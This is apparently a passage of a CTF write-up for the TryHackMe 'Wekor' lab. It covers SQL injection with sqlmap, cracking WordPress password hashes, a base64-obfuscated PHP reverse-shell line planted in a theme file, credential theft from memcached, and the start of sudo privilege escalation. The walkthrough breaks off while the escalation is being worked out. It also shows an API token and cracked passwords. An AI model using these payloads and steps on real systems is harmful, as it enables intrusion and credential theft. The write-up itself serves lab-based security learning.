## TL;DR

In this challenge, we find `SQL Injection` in hidden endpoint, and take the credentials for the `wordpress` website.
Then, we login as admin and get reverse shell as `www-data`.

We move to `Orka` using credentials found on `memcached` internal service, and lastly privilege escalate to root using unsecure path, we can modify one of the folders where the `secure_path` is looking for binaries.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:c3:ce:af:07:fa:e2:8e:29:04:e4:cd:14:6a:21:b5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDn0l/KSmAk6LfT9R73YXvsc6g8qGZvMS+A5lJ19L4G5xbhSpCoEN0kBEZZQfI80sEU7boAfD0/VcdFhURkPxDUdN1wN7a/4alpMMMKf2ey0tpnWTn9nM9JVVI9rloaiD8nIuLesjigq+eEQCaEijfArUtzAJpESwRHrtm2OWTJ+PYNt1NDIbQm1HJHPasD7Im/wW6MF04mB04UrTwhWBHV4lziH7Rk8DYOI1xxfzz7J8bIatuWaRe879XtYA0RgepMzoXKHfLXrOlWJusPtMO2x+ATN2CBEhnNzxiXq+2In/RYMu58uvPBeabSa74BthiucrdJdSwobYVIL27kCt89
|   256 4d:99:b5:68:af:bb:4e:66:ce:72:70:e6:e3:f8:96:a4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKJLaFNlUUzaESL+JpUKy/u7jH4OX+57J/GtTCgmoGOg4Fh8mGqS8r5HAgBMg/Bq2i9OHuTMuqazw//oQtRYOhE=
|   256 0d:e5:7d:e8:1a:12:c0:dd:b7:66:5e:98:34:55:59:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJvvZ5IaMI7DHXHlMkfmqQeKKGHVMSEYbz0bYhIqPp62
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 9 disallowed entries 
| /workshop/ /root/ /lol/ /agent/ /feed /crawler /boot 
|_/comingreallysoon /interesting
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's add `wekor.thm` to our `/etc/hosts`.

### Find hidden wordpress website on sites.wekor.thm

This is the root page:



Let's fuzz with `ffuf`, to enumerate endpoints:
```bash
┌──(agonen㉿kali)-[~/thm/Wekor]
└─$ ffuf -u 'http://wekor.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .php,.txt,.xml -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://wekor.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .php .txt .xml 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

index.html              [Status: 200, Size: 23, Words: 3, Lines: 2, Duration: 71ms]
robots.txt              [Status: 200, Size: 188, Words: 11, Lines: 11, Duration: 74ms]
```



we can see only `robots.txt`, let's check what it contains.
```bash
┌──(agonen㉿kali)-[~/thm/Wekor]
└─$ curl 'http://wekor.thm/robots.txt'
User-agent: *
Disallow: /workshop/
Disallow: /root/
Disallow: /lol/
Disallow: /agent/
Disallow: /feed
Disallow: /crawler
Disallow: /boot
Disallow: /comingreallysoon
Disallow: /interesting
```

I visited path by path, but only `/comingreallysoon` gave me something.



It says the setup their website on `/it-next`, let's check it:
```bash
http://wekor.thm/it-next/
```


Okay, Now, I enumerate also sub domains, using `gobuster`:
```bash
┌──(agonen㉿kali)-[~/thm/Wekor]
└─$ gobuster vhost -u "http://wekor.thm/" --ad -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -xs 302   
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://wekor.thm/
[+] Method:                    GET
[+] Threads:                   10
[+] Wordlist:                  /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:                gobuster/3.8
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
site.wekor.thm Status: 200 [Size: 143]
```


We can see the subdomain `site.wekor.thm`, let's add it to our `/etc/hosts`.



again, nothing too interesting is popping up, so let's fuzz it with `ffuf`.
```bash
┌──(agonen㉿kali)-[~/thm/Wekor]
└─$ ffuf -u 'http://site.wekor.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .txt,.php,.xml -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://site.wekor.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .txt .php .xml 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

index.html              [Status: 200, Size: 143, Words: 27, Lines: 6, Duration: 78ms]
wordpress               [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 75ms]
```

We can find the endpoint `wordpress`, let's go there
```bash
http://site.wekor.thm/wordpress/
```



Okay, wordpress website. Let's check for vulnerabilities using `wpscan`:
```bash
wpscan --url http://site.wekor.thm/wordpress/ -e --api-token A84WpfaaDC3sbFc6WvqlVEvpe7hKJta06iTcavjE9Jw -o wpscan_results.txt
```

### Exploit SQL Injection in original website to get wordpress admin access and reverse shell 

I tried to find something useful, or maybe brute force the user `admin` which i found, but nothing works... Okay, let's go back to the first website we so on the beginning.

Inside `http://wekor.thm/it-next/it_cart.php`, we can supply coupon.
I tried to give `bla '`, and we got this message:
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1



Okay, we detected possible `SQL Injection`.
We'll create `req.txt`, with the request that caused the SQLi, we can put `*` where the SQLi happens.
```bash
┌──(agonen㉿kali)-[~/thm/Wekor]
└─$ cat req.txt                       
POST /it-next/it_cart.php HTTP/1.1
Host: wekor.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://wekor.thm
Connection: keep-alive
Referer: http://wekor.thm/it-next/it_cart.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

coupon_code=*&apply_coupon=Apply+Coupon
```

Now, we can use `sqlmap` with flag `-r`
```bash
sqlmap -r req.txt --batch --dbs
```



and this is the result:
```bash
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[14:47:01] [INFO] fetching database names
available databases [6]:
[*] coupons
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] wordpress
```

Let's dump all data from `wp_users` at the database `wordpress`:
```bash
sqlmap -r req.txt --batch -D wordpress -T wp_users --dump
```



```bash
Database: wordpress
Table: wp_users
[4 entries]
+------+---------------------------------+------------------------------------+-------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| ID   | user_url                        | user_pass                          | user_email        | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key                           |
+------+---------------------------------+------------------------------------+-------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| 1    | http://site.wekor.thm/wordpress | $P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B. | admin@wekor.thm   | admin      | 0           | admin        | admin         | 2021-01-21 20:33:37 | <blank>                                       |
| 5743 | http://jeffrey.com              | $P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10 | jeffrey@wekor.thm | wp_jeffrey | 0           | wp jeffrey   | wp_jeffrey    | 2021-01-21 20:34:50 | 1611261290:$P$BufzJsT0fhM94swehg1bpDVTupoxPE0 |
| 5773 | http://yura.com                 | $P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/ | yura@wekor.thm    | wp_yura    | 0           | wp yura      | wp_yura       | 2021-01-21 20:35:27 | <blank>                                       |
| 5873 | http://eagle.com                | $P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/ | eagle@wekor.thm   | wp_eagle   | 0           | wp eagle     | wp_eagle      | 2021-01-21 20:36:11 | <blank>                                       |
+------+---------------------------------+------------------------------------+-------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
```

Now, it saves the output at the location `/home/agonen/.local/share/sqlmap/output/wekor.thm/dump/wordpress/wp_users.csv`, let's crack the hashes, using `john`:
```bash
┌──(agonen㉿kali)-[~/thm/Wekor]
└─$ cat /home/agonen/.local/share/sqlmap/output/wekor.thm/dump/wordpress/wp_users.csv | cut -d ',' -f3
user_pass
$P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B.
$P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10
$P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/
$P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/
                                                                                                                                                                                                              
┌──(agonen㉿kali)-[~/thm/Wekor]
└─$ cat /home/agonen/.local/share/sqlmap/output/wekor.thm/dump/wordpress/wp_users.csv | cut -d ',' -f3 > hashes.txt                                                                                                                                                                                                      
┌──(agonen㉿kali)-[~/thm/Wekor]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockyou          (?)     
xxxxxx           (?)     
soccer13         (?)
```



I used burp suite cluster bomb to find pair of valid credentials:


So, we got those credentials:
```bash
wp_jeffrey:rockyou
wp_yura:soccer13
wp_eagle:xxxxxx
```
and i logged in as `wp_jeffrey` with the password `rockyou`.



I tried to login with `wp_yura`, and we got admin user.



So, let's upload our webshell, just edit the file `404.php` at the location `http://site.wekor.thm/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwentyone`, and add this line (payload from `penelope`):
```php
system("printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzIuMTY4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash");
```



Next, we'll go to `http://site.wekor.thm/wordpress/index.php/notFound`, and get our reverse shell



### Find credentials of Orka inside memcached internal serivce

When checking for local services, using `ss -tl`, we can find port `11211` with unknown service:
```bash
www-data@osboxes:/tmp$ ss -tl
State      Recv-Q Send-Q Local Address:Port                 Peer Address:Port                LISTEN     0      10     127.0.0.1:3010                     *:*                    
LISTEN     0      80     127.0.0.1:mysql                    *:*                    
LISTEN     0      128    127.0.0.1:11211                    *:*                    
LISTEN     0      128        *:ssh                      *:*                    
LISTEN     0      5      127.0.0.1:ipp                      *:*                    
LISTEN     0      128       :::http                    :::*                    
LISTEN     0      128       :::ssh                     :::*                    
LISTEN     0      5        ::1:ipp                     :::*
```

So I googled and find this [https://hackviser.com/tactics/pentesting/services/memcached](https://hackviser.com/tactics/pentesting/services/memcached).

This is basiclly web cache service, so it might contain some nessacery staff for us.

First, I connected to the service with `telnet`:
```bash
telnet localhost 11211
```

Then, I exeucted `stats cachedump 1 100` to dump keys from slabs 1 to 100:
```bash
stats cachedump 1 100
ITEM username [4 b; 1764682948 s]
ITEM password [15 b; 1764682948 s]
ITEM salary [8 b; 1764682948 s]
ITEM email [14 b; 1764682948 s]
ITEM id [4 b; 1764682948 s]
END
```

Okay, let's get the value of key `username` and key `password`:
```bash
get username
VALUE username 0 4
Orka
END
get password
VALUE password 0 15
OrkAiSC00L24/7$
END
```


The credentials we got:
```bash
Orka:OrkAiSC00L24/7$
```

and grab the user flag:
```bash
Orka@osboxes:~$ cat user.txt 
1a26a6d51c0172400add0e297608dec6
```



### Privilege Escalation to Root using unsecure PATH

I first checked for sudo permissions using `sudo -l`:
```bash
Orka@osboxes:~$ sudo -l                                                                                                                          
[sudo] password for Orka:                                                                                                                        
Matching Defaults entries for Orka on osboxes:                                                                                                   
    env_reset, mail_badpass,                                                                                                                     
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                     
                                                                                                                                                 
User Orka may run the following commands on osboxes:                                                                                             
    (root) /home/Orka/Desktop/bitcoin
```

As we can see, the file `/home/Orka/Desktop/bitcoin` can be executed with `sudo`.



I downloaded the file, and reverse engineer it using [https://dogbolt.org/?id=159b236d-1246-45e3-b5ab-5798b99d942b](https://dogbolt.org/?id=159b236d-1246-45e3-b5ab-5798b99d942b).

